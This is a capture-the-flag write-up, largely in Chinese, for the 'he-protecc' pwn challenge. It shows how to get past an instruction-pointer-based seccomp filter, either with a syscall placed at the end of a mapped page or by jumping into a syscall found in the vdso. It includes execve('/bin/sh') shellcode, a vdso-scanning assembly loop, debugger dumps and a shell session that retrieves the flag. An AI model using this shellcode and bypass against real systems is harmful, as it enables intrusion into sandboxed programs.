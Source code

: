 # 思路
- rip > 0x00500fff, rip = 0x501000
- ig seccomp instruction_pointer points to the next instruction,so if you put syscall at the end it points outside the area
- at the end RIP --> 0x501000, which is in the allowed range. 
# 题目描述
```
I was trying to access the corn bank, but the access seems to be restricted somehow. Can you help me?

Note: the compose.yml file is provided just for convenience, and is not strictly necessary to solve the challenge.

ncat --ssl he-protecc.challs.cornc.tf 1337
```

# 知识点
## mmap
```
 0x40330d <main+109>    call   mmap64                      <mmap64>
        addr: 0x500000
        len: 0x1000
        prot: 7
        flags: 0x22
        fd: 0xffffffff
        offset: 0
```

## seccomp
```
(pip_venv) ➜  heprotecc seccomp-tools dump ./protected
How long is your shellcode?
0
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

# getshell
```
[*] Switching to interactive mode
$ cat f*
[DEBUG] Sent 0x7 bytes:
    b'cat f*\n'
[DEBUG] Received 0x24 bytes:
    b'corn{W0w_5ucH_pr07ect1On!_0a1e3243}\n'
corn{W0w_5ucH_pr07ect1On!_0a1e3243}
[*] Got EOF while reading in interactive
```
![](https://r2.20161023.xyz/pic/20250622225524269.png)


# 通用shellcode
```
[+]    0:   48 31 c0                xor    rax, rax
       3:   50                      push   rax
       4:   48 bb 2f 2f 62 69 6e 2f 73 68   movabs rbx, 0x68732f6e69622f2f
       e:   53                      push   rbx
       f:   48 89 e7                mov    rdi, rsp
      12:   48 31 f6                xor    rsi, rsi
      15:   48 31 d2                xor    rdx, rdx
      18:   48 c7 c0 3b 00 00 00    mov    rax, 0x3b
      1f:   0f 05                   syscall

```


# 方法二知识点
寻找vdso地址，栈上一个是0x21
```
4a:0250│+218 0x7fffc5698468 ◂— 0
4b:0258│+220 0x7fffc5698470 ◂— 0x21 /* '!' */
4c:0260│+228 0x7fffc5698478 —▸ 0x7fffc57b3000 ◂— jg 0x7fffc57b3047
4d:0268│+230 0x7fffc5698480 ◂— 0x33 /* '3' */
4e:0270│+238 0x7fffc5698488 ◂— 0x7f0
4f:0278│+240 0x7fffc5698490 ◂— 0x10
pwndbg>
50:0280│+248 0x7fffc5698498 ◂— 0xbfebfbff
51:0288│+250 0x7fffc56984a0 ◂— 6
52:0290│+258 0x7fffc56984a8 ◂— 0x1000
53:0298│+260 0x7fffc56984b0 ◂— 0x11
54:02a0│+268 0x7fffc56984b8 ◂— 0x64 /* 'd' */
55:02a8│+270 0x7fffc56984c0 ◂— 3
56:02b0│+278 0x7fffc56984c8 —▸ 0x400040 ◂— 0x400000001
57:02b8│+280 0x7fffc56984d0 ◂— 4
pwndbg>
58:02c0│+288 0x7fffc56984d8 ◂— 0x38 /* '8' */
59:02c8│+290 0x7fffc56984e0 ◂— 5
5a:02d0│+298 0x7fffc56984e8 ◂— 0xb /* '\x0b' */
5b:02d8│+2a0 0x7fffc56984f0 ◂— 7
5c:02e0│+2a8 0x7fffc56984f8 ◂— 0
5d:02e8│+2b0 0x7fffc5698500 ◂— 8
5e:02f0│+2b8 0x7fffc5698508 ◂— 0
5f:02f8│+2c0 0x7fffc5698510 ◂— 9 /* '\t' */
pwndbg> vmmap 0x7fffc57b3000
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File (set vmmap-prefer-relpaths on)
    0x7fffc57af000     0x7fffc57b3000 r--p     4000      0 [vvar]
►   0x7fffc57b3000     0x7fffc57b5000 r-xp     2000      0 [vdso] +0x0
pwndbg>
```
![](https://r2.20161023.xyz/pic/20250623155319133.png)



# vdso
0x50f就是syscall，在vdso区域寻找syscall，然后设置好寄存器值，最后jmp r8，执行syscall

```
.loop_vdso:
    add r8, 1
    xor rax, rax
    mov ax, word ptr [r8]
    sub rax, 0x50f
    test rax, rax
    jne .loop_vdso
```

![](https://r2.20161023.xyz/pic/20250623155519927.png)

# 参考
方法二学习自`4ncicentH`
![](https://r2.20161023.xyz/pic/20250623160018545.png)
